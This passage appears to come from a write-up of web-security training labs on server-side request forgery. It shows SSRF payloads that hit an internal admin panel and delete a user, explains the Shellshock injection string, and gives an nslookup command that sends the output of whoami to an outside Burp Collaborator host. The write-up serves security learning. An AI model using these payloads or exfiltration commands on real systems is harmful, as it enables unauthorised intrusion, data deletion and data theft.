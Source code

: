 ![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*cIsv2Fv3vBhMttkItseKUw.png)

**Payload:** /product/nextProduct?path=[http://192.168.0.12:8080/admin](http://192.168.0.12:8080/admin). We removed ‘currentProductId’ parameter because we don’t need it.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*tsGMHDwZvusR83fPWO56Yg.png)

**Payload:** /product/nextProduct?path=[http://192.168.0.12:8080/admin/delete?username=carlos](http://192.168.0.12:8080/admin/delete?username=carlos). This payload deletes the user ‘Carlos’ and solves the lab.

Lab 5: Blind SSRF with Shellshock exploitation (Expert)
=======================================================

**Description:** This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded. To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the `192.168.0.X` range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user. #Expert #Shellshock #Exploitation 

To solve this lab, We need to learn what is Shellshock vulnerability. I strongly recommend you to refer to the below article:

https://blog.cloudflare.com/inside-shellshock/

Basically, Shellshock is an example of an [arbitrary code execution (ACE)](http://en.wikipedia.org/wiki/Arbitrary_code_execution) vulnerability. If a web server is vulnerable to Shellshock, you could run shell commands on the server by adding the magic string `() { :; };` to the command and then sending that string to the target computer over HTTP.

Here, We will use Shellshock payload to exploit this blind SSRF vulnerability and run ‘whoami’ command to find the OS user. #ArbitraryCodeExecution 

What we know?
-------------

1.  We can use a Shellshock payload in the ‘User-Agent’ header to run shell commands (refer the above article).

What we need?
-------------

1.  We need a place to get the response of the shellshock payload request.

Using Burp Collaborator to test Shellshock command execution:
-------------------------------------------------------------

1.  Copy the Collaborator URL.
2.  Open the terminal and use the below payload.

```
nslookup $(whoami).qtnaphrynousb1w5nosr9upqkhq8ey2n.oastify.com
```

3. This command will trigger a DNS request to the collaborator and you will get a response like below.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*yExnKRNI4eYK2q5Ul1gtQg.png)
